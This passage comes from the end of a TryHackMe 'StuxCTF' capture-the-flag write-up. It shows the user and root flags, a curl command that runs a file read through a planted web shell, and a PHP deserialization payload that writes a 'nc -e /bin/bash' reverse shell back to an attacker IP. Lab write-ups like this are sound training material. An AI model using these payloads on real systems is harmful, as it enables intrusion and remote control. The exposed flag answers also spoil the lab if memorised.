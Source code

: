 ```bash
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=cat /home/grecia/user.txt"
0b6044b7807dd100b9e30f1bd09db53f
:~/StuxCTF# 

```

<br>
<br>


> 1.2. <em>root.txt </em><br><a id='1.2'></a>
>> <strong><code>0028454003b42601548df551b738976c</code></strong><br>
<p></p>


<br>


![image](https://github.com/user-attachments/assets/b189729e-218c-4211-bf58-3dfcfc8d57d3)

<br>

<p>O:4:"file":2:{s:4:"file";s:7:"rev.php";s:4:"data";s:56:"<?php shell_exec("nc -e /bin/bash 10.10.17.38 9999"); ?>";}</p>

![image](https://github.com/user-attachments/assets/b7d6a743-1062-42ac-a676-6e5f1c643c8c)

<br>

![image](https://github.com/user-attachments/assets/86a9bf48-d190-4b87-bcc2-b3a57d19ae61)

<br>

![image](https://github.com/user-attachments/assets/a5edbf38-2cab-4d8d-87e8-2c0613b5303a)



<br>


![image](https://github.com/user-attachments/assets/22964415-a9b2-4100-8800-e46ef6ca3122)

<br>

![image](https://github.com/user-attachments/assets/16d161d8-2de5-49b9-b076-e2621fba47c3)

<br>



<br>


<h1 align="center"> $$\textcolor{#3bd62d}{\textnormal{Room Completed}}$$</h1>
<p align="center"> <img width="1000px" src="https://github.com/user-attachments/assets/18216b56-67e1-407c-830e-015d11a32656"><br>
                   <img width="1000px" src="https://github.com/user-attachments/assets/bb7cf2a3-48fc-479d-98d8-3d20eba3142e"></p>
<h1 align="center"> $$\textcolor{#3bd62d}{\textnormal{My TryHackMe Journey}}$$</h1>
